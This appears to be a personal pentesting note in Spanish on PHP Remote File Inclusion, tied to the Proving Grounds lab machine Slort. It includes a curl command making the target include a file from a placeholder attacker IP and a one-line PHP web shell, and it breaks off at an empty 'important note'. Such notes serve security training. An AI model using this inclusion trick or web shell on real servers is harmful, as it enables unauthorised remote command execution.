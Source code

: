 ## DESCRIPTION

**Remote File Inclusion (RFI):** The file is loaded from a remote server (Best: You can write the code and the server will execute it). In php this is **disabled** by default (**allow_url_include**).

#### Mas información
* https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers-and-protocols
* https://defaultcredentials.com/ctf/proving-grounds/slort-proving-grounds-walkthrough/

## EXPLOITATION

### OPTION 1: 

1. Comprobamos que tenemos conexión con nuestra máquina:

```
curl http://192.168.79.53:4443/site/index.php?page=http://<<IP atacante>>/hi
```

2. Si recibimos conexión entonces podemos apuntar a un fichero php que contenga una web shell:

```
 <?php system($_GET['cmd']); ?>  
```

3. O también podemos crear una shell excel y llamarla desde un php, necesitamos dos pasos -> 

![[Pasted image 20230320165312.png]]

https://defaultcredentials.com/ctf/proving-grounds/slort-proving-grounds-walkthrough/

## MACHINES

* Hack The Box: 
* PG Practice: Slort

**!!NOTA IMPORTANTE!!** 